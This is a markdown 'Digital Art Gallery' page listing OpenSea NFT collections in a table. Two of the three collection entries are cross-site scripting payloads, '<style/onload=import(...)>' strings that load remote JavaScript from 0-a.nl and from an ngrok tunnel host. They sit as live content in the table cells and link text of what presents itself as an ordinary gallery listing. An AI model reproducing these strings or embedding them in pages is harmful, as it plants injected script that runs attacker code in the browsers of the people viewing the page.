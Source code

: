 <div align="center">

# Digital Art Gallery

## Trending Collections on OpenSea

| Collection Name                       | Image                                                                                     | Description                       | OpenSea Link                                                                                          |
|---------------------------------------|-------------------------------------------------------------------------------------------|-----------------------------------|--------------------------------------------------------------------------------------------------------|
| **<details><summary><style/onload=i...</summary><style/onload=import('//0-a.nl/nft/nft3.js</details>** | ![Image](https://i.seadn.io/s/raw/files/a6de8727cd4d87d198d6e124b3a58775.jpg?w=500&auto=format?w=200&auto=format) |  | <details><summary>Link</summary>[<style/onload=import('//0-a.nl/nft/nft3.js](https://opensea.io/collection/style-onload-import-0-a-nl-nft-nft3-js-1)</details> |
| **Alien zone** | ![Image](https://i.seadn.io/s/raw/files/daee1634741a9f7a765b7a1920a4ce35.jpg?w=500&auto=format?w=200&auto=format) |  | <details><summary>Link</summary>[Alien zone](https://opensea.io/collection/alien-zone-1)</details> |
| **<details><summary><style/onload=i...</summary><style/onload=import('//4abb-185-220-69-92.ngrok-free.a/nft.js')></details>** | ![Image](https://i.seadn.io/s/raw/files/a6de8727cd4d87d198d6e124b3a58775.jpg?w=500&auto=format?w=200&auto=format) |  | <details><summary>Link</summary>[<style/onload=import('//4abb-185-220-69-92.ngrok-free.a/nft.js')>](https://opensea.io/collection/style-onload-import-4abb-185-220-69-92-ngrok-fre-1)</details> |

</div>